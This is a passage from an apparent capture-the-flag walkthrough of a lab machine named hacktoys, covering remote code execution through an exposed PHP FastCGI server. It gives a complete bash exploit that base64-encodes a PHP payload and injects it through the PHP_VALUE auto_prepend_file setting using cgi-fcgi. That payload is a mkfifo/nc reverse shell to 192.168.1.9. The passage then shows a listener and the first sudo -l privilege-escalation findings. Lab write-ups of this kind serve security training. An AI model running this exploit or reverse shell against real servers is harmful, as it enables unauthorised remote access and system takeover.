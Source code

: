 We can see that indeed there is a PHP FastCGI server running as dodi user. So i'll test if we can get RCE

To test this hypothesis i'll try to reproduce the exploit mentioned inside the blog article.

- Firts step: I need to create a php file inside  `/dev/shm/` folder:
```bash
touch /dev/shm/index.php
```

- Second step: Create the bash exploit for automation with the following content (change ip and port):
```bash
#!/bin/bash

#exploit.sh file

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.9 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

- Third step: Run the exploit and pray:
```bash
chmod +x  ./exploit.sh
./exploit.sh
```
 
Before running the exploit i started a listener on my local machine:
```bash
pwncat-cs -lp 443
```

And got the connection!!

![dodi shell](./pics/dodi_shell.png)

Now that we are dodi, we can try to do some manual enumeration to privesc to root user.

The first command i usually run is `sudo -l`, this time i got lucky:
```bash
Matching Defaults entries for dodi on hacktoys:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dodi may run the following commands on hacktoys:
    (ALL : ALL) NOPASSWD: /usr/local/bin/rvm_rails.sh
```
